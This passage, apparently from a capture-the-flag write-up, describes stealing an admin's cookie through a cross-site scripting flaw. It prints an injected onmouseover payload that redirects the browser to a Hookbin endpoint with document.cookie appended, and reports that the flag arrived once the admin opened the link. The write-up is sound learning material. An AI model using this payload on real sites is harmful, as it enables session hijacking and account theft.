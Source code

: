 ![](img16.png)

Next, I used Hookbin (https://hookbin.com/) to create an endpoint and intercept some requests. Then I had to figure out how to use "onmousemove" to send the admin cookie to the endpoint. After some research I found this:

```c
test'onmouseover='document.location=%22https://hookb.in/3One9l7Djnu7yakkymWL?%22.concat(document.cookie)
```

Then I had to wait for the admin to check the link, and after some time the flag arrived:

![](img17.png)
